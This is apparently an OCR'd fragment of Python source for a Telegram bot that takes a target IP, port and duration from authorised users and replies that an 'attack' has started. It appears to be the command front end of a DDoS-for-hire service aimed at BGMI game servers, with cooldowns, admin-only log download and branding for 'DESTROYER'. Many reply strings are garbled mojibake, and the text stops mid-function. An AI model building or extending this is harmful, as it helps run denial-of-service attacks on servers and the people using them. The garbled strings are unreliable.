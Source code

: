        response = "ê°Êá´á´ á´á´ á´Êá´Êá´ ê±Êá´Êá´ Êá´Éª á´Êá´ á´á´ á´á´ á´á´á´Êá´ á´á´Éª á´ÊÉª ÊÊÉª É¢á´ê± ÊÊá´Éª Êá´ Êá´Ê á´Êá´ ê°Êá´á´ á´á´Éª á´á´á´Ê É´ÊÉª á´ÉªÊá´á´ Êá´Ê:- DESTROYER â."
    bot.reply_to(message, response)


@bot.message_handler(commands=['logs'])
def show_recent_logs(message):
    user_id = str(message.chat.id)
    if user_id in admin_id:
        if os.path.exists(LOG_FILE) and os.stat(LOG_FILE).st_size > 0:
            try:
                with open(LOG_FILE, "rb") as file:
                    bot.send_document(message.chat.id, file)
            except FileNotFoundError:
                response = "No data found â."
                bot.reply_to(message, response)
        else:
            response = "No data found â"
            bot.reply_to(message, response)
    else:
        response = "ê°Êá´á´ á´á´ á´Êá´Êá´ ê±Êá´Êá´ Êá´Éª á´Êá´ á´á´ á´á´ á´á´á´Êá´ á´á´Éª á´ÊÉª ÊÊÉª É¢á´ê± ÊÊá´Éª Êá´ Êá´Ê á´Êá´ ê°Êá´á´ á´á´Éª á´á´á´Ê É´ÊÉª á´ÉªÊá´á´ Êá´Ê:- DESTROYER â."
        bot.reply_to(message, response)



# Function to handle the reply when free users run the /bgmi command
def start_attack_reply(message, target, port, time):
    user_info = message.from_user
    username = user_info.username if user_info.username else user_info.first_name
    
    response = f"{username}, ðððððð ððððððð.ð¥ð¥\n\nððð«ð ðð­: {target}\nðð¨ð«ð­: {port}\nðð¢ð¦ð: {time} ðððð¨ð§ðð¬\nððð­ð¡ð¨ð: VIP- DESTROYER KA KALA JADU"
    bot.reply_to(message, response)

# Dictionary to store the last time each user ran the /bgmi command
bgmi_cooldown = {}

COOLDOWN_TIME =0

# Handler for /bgmi command
@bot.message_handler(commands=['IPxKINGYT'])
def handle_bgmi(message):
    user_id = str(message.chat.id)
    if user_id in allowed_user_ids:
        # Check if the user is in admin_id (admins have no cooldown)
        if user_id not in admin_id:
            # Check if the user has run the command before and is still within the cooldown period
            if user_id in bgmi_cooldown and (datetime.datetime.now() - bgmi_cooldown[user_id]).seconds < 10:
                response = "You Are On Cooldown â. Please Wait 10sec Before Running The /IPxKINGYT Command Again."
                bot.reply_to(message, response)
                return